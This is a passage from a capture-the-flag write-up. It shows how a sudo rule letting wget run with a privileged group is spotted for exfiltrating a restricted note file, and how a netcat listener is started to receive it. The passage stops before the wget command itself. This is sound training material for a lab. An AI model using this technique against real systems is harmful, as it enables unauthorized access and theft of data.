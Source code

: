 Go to the next and last step !



## 3rd step - Nice exfiltration !

![](/img/santhacklaus/netrunner11.png "")

Look at the file `client.note`. It say : `Note: the password is the same than your username.`
Why is necessary to know the user password ? To be able to execute sudo !!!


```
puppet-master@2a87f3ade358:~$ sudo -l
[sudo] password for puppet-master: 
Matching Defaults entries for puppet-master on 2a87f3ade358:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, lecture=never

User puppet-master may run the following commands on 2a87f3ade358:
    (puppet-master : zetatech-maintenance) /usr/bin/wget
```

Yeah ! The exploit is here ! What can we do ? User `puppet-master` can execute wget with group permission of `zetatech-maintenance`. Good ! Look at the `puppet-master` home

```
puppet-master@2a87f3ade358:~$ ls -al
total 36
dr-xr-x--- 1 root puppet-master        4096 Dec 16 13:30 .
drwxr-xr-x 1 root root                 4096 Dec 11 08:01 ..
-r-xr-x--- 1 root puppet-master         220 Dec 11 08:01 .bash_logout
-r-xr-x--- 1 root puppet-master        3392 Dec 11 08:01 .bashrc
-r-xr-x--- 1 root puppet-master         675 Dec 11 08:01 .profile
drwxr-x--- 1 root puppet-master        4096 Dec 11 08:01 .ssh
-rwxr----- 1 root puppet-master         439 Dec 10 13:52 client.note
-rwxr-x--- 1 root puppet-master         746 Dec 10 13:52 status.sh
-rwxr----- 1 root zetatech-maintenance  266 Dec 10 13:52 tech.note
```

The file `tech.note` can be read by group `zetatech-maintenance`. This is the file we need ! Let's exfiltrate it !

First, launch my listener.

```
th1b4ud@pc-th1b4ud:~$ nc -lvp 4444
listening on [any] 4444 ...
```

But before go further, what is `wget` ?

`GNU Wget (or just Wget, formerly Geturl, also written as its package name, wget) is a computer program that retrieves content from web servers. It is part of the GNU Project. Its name derives from World Wide Web and get. It supports downloading via HTTP, HTTPS, and FTP. `

Thanks again Wikipedia \o/

